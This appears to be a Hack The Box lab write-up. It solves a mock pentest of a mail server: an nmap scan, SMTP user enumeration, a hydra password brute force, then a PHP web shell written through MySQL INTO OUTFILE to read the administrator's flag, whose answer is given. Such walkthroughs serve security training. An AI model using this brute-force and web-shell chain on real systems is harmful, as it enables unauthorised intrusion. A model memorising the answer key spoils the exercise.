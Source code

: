 We were commissioned by the company Inlanefreight to conduct a penetration test against three different hosts to check the servers' configuration and security. We were informed that a flag had been placed somewhere on each server to prove successful access. These flags have the following format:

- `HTB{...}`

Our task is to review the security of each of the three servers and present it to the customer. According to our information, the first server is a server that manages emails, customers, and their files.

### Questions 
You are targeting the inlanefreight.htb domain. Assess the target server and obtain the contents of the flag.txt file. Submit it as the answer.
### Solutions
```shell
> nmap -sC -sV 10.129.203.7
21/tcp   open  ftp
25/tcp   open  smtp     hMailServer smtpd
80/tcp   open  http          Apache httpd 2.4.53 ((Win64) OpenSSL/1.1.1n PHP/7.4.29)
443/tcp  open  https         Core FTP HTTPS Server
587/tcp  open  smtp          hMailServer smtpd
3306/tcp open  mysql         MySQL 5.5.5-10.4.24-MariaDB
3389/tcp open  ms-wbt-server Microsoft Terminal Services


SMTP user enum:
> smtp-user-enum -m RCPT -U users.list -d inlanefreight.htb 10.129.203.7 25
[SUCC] fiona         250 OK

Brute force with hydra:
> hydra -l 'fiona@inlanefreight.htb' -P /usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords-10000.txt -f 10.129.203.7 smtp -V -I -s 25

login: fiona@inlanefreight.htb   password: 987654321

fiona:987654321
```

```shell
> mysql -u fiona -p -h 10.129.107.193

sql> show variables like "secure_file_priv"
Variable is empty so we can upload file through mysql

sql> SELECT "<?=`$_GET[0]`?>" INTO OUTFILE 'C:/xampp/htdocs/dashboard/phpinfo3.php'
We upload it there because we know that it's a xampp server and it is the default location of file for this type of server.

(Le dossier `htdocs`, où vous devez placer vos fichiers web, est situé dans `C:\xampp\htdocs`)



Then We just have to access this webshell:
http://10.129.107.193/dashboard/phpinfo3.php?0=type+C:\Users\administrator\desktop\flag.txt

Answer: HTB{t#3r3_4r3_tw0_w4y$_t0_93t_t#3_fl49}
```
